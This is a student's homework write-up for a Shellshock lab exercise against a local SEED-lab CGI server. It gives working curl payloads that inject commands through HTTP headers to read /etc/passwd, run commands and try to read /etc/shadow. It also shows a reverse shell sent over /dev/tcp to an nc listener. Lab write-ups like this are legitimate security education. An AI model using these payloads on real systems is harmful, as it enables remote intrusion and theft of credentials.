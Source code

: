 ```yaml
---
sidebar_position: 4
id: HW3
title: HW3
tags:
  - Study
  - Graduate
  - System Security
---
```


## Task 3: Launching the Shellshock Attack

### Task 3.A: Retrieve /etc/passwd (Using User-Agent)

![Task 3A](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-a.png)  

We use the `curl` command with the `-A` option to set the `User-Agent` header:

```bash
curl -A "() { :;}; echo Content-type: text/plain; echo; cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

As shown above, the Shellshock exploit executes the `cat /etc/passwd` command.


### Task 3.B: Get Process User ID (Using Referer)

![Task 3B](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-b.png)

We use the `-e` option to set the `Referer` header:

```bash
curl -e "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; /bin/id'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

The output indicates that the server process runs as the `www-data` user, which shows that the exploit successfully executes `/bin/id`.


### Task 3.C: Create a File in /tmp (Using Custom Header)

![Task 3C](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-c.png)  

We use the `-H` option to set a custom header `X-Shellshock`:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; touch /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

No output is returned, as `touch` produces none.  
But after entering the container with `docker exec -it 68997b4796f2 /bin/bash` and running `ls /tmp`, we can see `myfile` listed.


### Task 3.D: Delete the File in /tmp (Using Custom Header)

![Task 3D](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-d.png)

We reuse the `X-Shellshock` header:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; rm /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

Checking again with `ls /tmp` inside the container shows `myfile` no longer exists.


### Question 1: Can we steal `/etc/shadow` from the server?

We can test with:  
```bash
curl -A "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; cat /etc/shadow'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![Question 1](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q1.png)

So the answer is:  
**No**. Because the attack runs as `www-data`, which lacks the necessary permissions to read `/etc/shadow`:


### Question 2: Can we use QUERY_STRING to launch the attack?

We can test with:  
```bash
curl "http://www.seedlab-shellshock.com/cgi-bin/vul.cgi?() { :;}; echo vulnerable"
```

![Question 2](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q2.png)

So the answer is:  
**No**. The output is a `400 Bad Request` error, indicating the server rejected the request.  
`QUERY_STRING` field in the URL would not be parsed as a function definition that `bash_shellshock` can execute.


## Task 4: Getting a Reverse Shell via Shellshock Attack

![Task 4](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task4.png)  

We establish a reverse shell from the victim server (`10.9.0.80`) to the attacker machine (`10.0.2.15`). 

1. First, on the attacker VM, we start a listener:
    ```bash
    nc -nv -l 9090
    ```
2. Then, in a second terminal, we launch the attack using the `User-Agent` header:
    ```bash
    curl -A "() { :;}; /bin/bash_shellshock -c '/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
    ```

We can see that the `nc` terminal shows `Connection received on 10.9.0.80 40356`, followed by a shell prompt: `www-data@68997b4796f2:/usr/lib/cgi-bin$`. We observe messages like _bash: cannot set terminal process group (32): Inappropriate ioctl for device_ and _bash: no job control in this shell_, which are expected in a reverse shell without a proper terminal.

:::tip Payload Explanation

- `() { :;};` triggers the vulnerability by defining a function, allowing commands following it to be executed.
- `/bin/bash_shellshock -c` Executes our command in a vulnerable shell.
- `/bin/bash -i` starts an interactive shell.
- `> /dev/tcp/10.9.0.5/9090` redirects the shell's output to the attacker's listener.
- `0<&1 2>&1` redirects standard input and error to the same socket, allowing full interaction with the shell.

:::